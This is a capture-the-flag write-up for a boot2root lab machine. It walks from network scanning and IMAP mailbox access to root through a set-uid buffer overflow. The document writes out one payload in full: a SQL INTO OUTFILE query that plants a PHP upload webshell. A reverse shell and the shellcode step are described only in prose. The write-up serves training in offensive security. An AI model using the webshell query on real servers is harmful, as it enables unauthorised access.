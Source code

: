 # boot2root writeup

After running the machine and configuring the networking to bridged with en0 interface, we ran a ping sweep to find the ip address.
```
$ bash misc/psweep.sh
64 bytes from 10.12.176.109: icmp_seq=0 ttl=64 time=2.276 ms
64 bytes from 10.12.176.125: icmp_seq=0 ttl=64 time=0.555 ms
64 bytes from 10.12.176.141: icmp_seq=0 ttl=64 time=0.955 ms
```

Running an nmap scan on the machine results in multiple open ports
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

Inspecting https we find two interesting routes /phpmyadmin and /forum, while browsing in the forum we find an interesting blog about troubleshooting sshd, and the blog author shared the error logs.
We find a valid password for user lmezard in the forum.

These credentials are only working on the imapd dovecot server, after logging in the the mailbox of laurie@borntosec.net we find root credentials to phpmyadmin,
giving us access to /phpmyadmin.

`openssl s_client -connect ip:993
a LOGIN user password
a LIST "" "*"
a SELECT INBOX.Sent
a FETCH 2 BODY.PEEK[]
`

With the help of phpmyadmin we can upload a php webshell that gives us arbitrary command execution.

`SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE '/var/www/forum/templates_c/upload.php';`

We run a listener, and execute a reverse shell payload through our webshell this is how we get a shell with user www-data.

We find a LOOKATME containing the credentials of user lmezard, we switch user with command su to lmezard, in it's home directory we find `fun` challenge.

We get our first challenge named `fun` solving it will give us ssh password of user laurie.

After solving the fun challenge we log in through ssh with laurie, and find another challenge a binary named bomb containing six phases that require a password to not explode, this challenge will give us access to user thor.

Thor contains a turtle graphics challenge, giving us a large file containing turtle commands for drawing the password, the password of user zaz

Finally zaz contains a set-uid binary with the owner root, the binary is vulnerable to a stack buffer overflow, we will inject shellcode that execute a shell and we get a root shell.
